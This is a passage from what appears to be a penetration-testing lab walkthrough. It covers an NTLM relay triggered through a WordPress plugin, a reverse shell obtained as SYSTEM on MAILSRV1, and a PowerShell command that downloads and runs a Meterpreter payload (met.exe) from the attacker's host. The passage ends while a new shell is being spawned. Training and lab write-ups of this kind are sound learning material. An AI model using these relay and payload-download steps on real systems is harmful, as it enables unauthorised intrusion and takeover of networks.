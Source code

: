 Save the modified directory path by scrolling down and clicking on _Save_. This _should_ cause the WordPress plugin to authenticate to our ntlmrelay.

{% code overflow="wrap" %}
```bash
...
[*] Authenticating against smb://192.168.50.242 as INTERNALSRV1/ADMINISTRATOR SUCCEED
...
[*] Service RemoteRegistry is in stopped state
...
[*] Starting service RemoteRegistry
...
[*] Executed specified command on host: 192.168.50.242
...
[*] Stopping service RemoteRegistry
```
{% endcode %}

We now see the reverse shell connection:

{% code overflow="wrap" %}
```powershell
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 50063
whoami
nt authority\system

PS C:\Windows\system32> hostname
MAILSRV1

PS C:\Windows\system32> 
```
{% endcode %}

## Gaining Access to the Domain Controller

### Cached Credentials

Downloading our previous meterpreter reverse shell:

{% code overflow="wrap" %}
```powershell
PS C:\Windows\system32> cd C:\Users\Administrator

PS C:\Users\Administrator> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\Administrator> .\met.exe
```
{% endcode %}

Interacting with the session and spawning a new powershell command line shell:

{% code overflow="wrap" %}
```powershell
msf6 post(multi/manage/autoroute) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 416 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

```